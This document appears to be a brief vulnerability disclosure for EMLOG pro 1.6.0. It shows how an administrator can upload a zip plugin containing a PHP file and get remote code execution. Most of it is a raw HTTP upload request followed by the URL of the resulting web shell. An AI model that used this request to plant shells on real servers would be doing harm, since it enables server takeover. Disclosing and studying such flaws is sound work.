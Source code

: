 # EMLOG_pro_1.6.0（latest version） plugins upload rce vulnerability
### EMLOG download address：https://github.com/emlog/emlog/releases/tag/pro-1.6.0
## 1. Login as admin and upload a plugin (a zip which include a php file)
### payload 
```
POST /emlog/admin/plugin.php?action=upload_zip HTTP/1.1
Host: 192.168.111.155
Content-Length: 876
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.111.155
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOK8HOjtKZalBj6CG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.111.155/emlog/admin/plugin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lq0s731hnlqm232itjlgpc27el; EM_AUTHCOOKIE_jT79impSwTWeimzUBIsgAmv1NoQbG2Zs=admin%7C1695536025%7C848fc865191736412177851eb6082b92
Connection: close

------WebKitFormBoundaryOK8HOjtKZalBj6CG
Content-Disposition: form-data; name="pluzip"; filename="shell.zip"
Content-Type: application/x-zip-compressed

PK
------WebKitFormBoundaryOK8HOjtKZalBj6CG
Content-Disposition: form-data; name="token"

4e1bef9d513bae43a46448cbbaee0db7d1d5f7d1
------WebKitFormBoundaryOK8HOjtKZalBj6CG--
```
![image](https://github.com/wszdhf/cms_vul/blob/main/emlog-01.jpg)
## 2. Active the plugin you uploaded and get a shell!
### payload
```
http://192.168.111.155//emlog/content/plugins/shell/shell.php
```
![image](https://github.com/wszdhf/cms_vul/blob/main/emlog-02.jpg)

